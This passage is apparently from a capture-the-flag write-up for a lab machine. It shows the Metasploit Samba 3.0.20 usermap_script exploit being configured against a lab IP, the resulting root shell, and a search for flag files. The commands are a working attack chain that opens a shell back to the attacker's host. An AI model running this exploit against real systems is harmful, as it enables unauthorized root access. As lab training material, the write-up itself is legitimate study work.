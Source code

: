 it looks like the exploit didn't work fur us as metasploit stated that no session was created.

### Enumerating Samba 3.0.20



selecting the exploit

```shell
search samba 3.0.20

use exploit/multi/samba/usermap_script

show options


```

we selected the exploit now we have to set the RHOSTS to the box IP and and LHOST to our IP and run the exploit

```shell
set RHOSTS 10.10.10.3
set LHOST 10.10.14.4

run

->
[*] Command shell session 1 opened

```

we have a command shell 
lets see if we can get a shell 

```shell
shell

->
[*] Trying to find binary 'python' on the target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /bin/bash


root@lame:/# 

```

we have a root shell , lets now search for the flags 

```shell
find /root /home -name '*.txt'

->
/root/.purple/logs/irc/metasploitable2@irc.ubuntu.com/nickserv/2012-05-20.151028-0400EDT.txt
/root/root.txt
/root/.mozilla/firefox/k4m5fjw3.default/urlclassifierkey3.txt
/home/makis/user.txt

```
